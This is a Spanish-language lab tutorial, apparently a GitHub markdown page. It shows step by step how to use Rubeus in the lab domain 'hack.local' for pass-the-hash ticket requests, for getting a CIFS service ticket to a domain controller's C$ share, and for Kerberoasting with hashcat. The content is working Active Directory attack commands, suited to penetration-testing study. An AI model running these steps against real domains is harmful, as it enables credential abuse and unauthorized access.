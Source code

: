 
#### ✅ Paso 1: ASKTGT – Solicitar un TGT con un hash NTLM

```powershell
Rubeus.exe asktgt /user:gustavo /domain:hack.local /rc4:9b9a5e6cf8c0b0e76f3e5e82cba6e3e3 /ptt
```

🔹 Opciones:

- `/user`: Nombre del usuario.
- `/domain`: Nombre del dominio.
- `/rc4`: Hash NTLM del usuario (también se puede usar `/password:`).
- `/ptt`: Inyecta el TGT directamente en la sesión.

✔️ Verifica el ticket:

```cmd
klist
```

Deberías ver un ticket de `krbtgt/hack.local`.

---

#### ✅ Paso 2: ASKTGS – Pedir un TGS para un servicio

```powershell
Rubeus.exe asktgs /service:cifs/dc.hack.local
```

🔹 Esto solicitará un ticket TGS para acceder al servicio SMB en el DC (`\\dc.hack.local\C$`).

✔️ Verifica de nuevo:

```cmd
klist
```

Verás 2 tickets: el TGT y el nuevo TGS para `cifs/dc.hack.local`.

---

#### ✅ Paso 3: Usar el TGS para conectarte

```cmd
dir \\dc.hack.local\C$
```

Si el usuario `gustavo` tiene permisos, tendrás acceso. ¡Sin haber ingresado su contraseña en ningún momento!

---

### 🚨 Bonus: ASKTGS para Kerberoasting

Si conoces el nombre de un **SPN**, puedes pedir el TGS y crackearlo con `hashcat`:

```powershell
Rubeus.exe asktgs /service:http/srv-web.hack.local /user:gustavo /rc4:<hash> /domain:hack.local
```
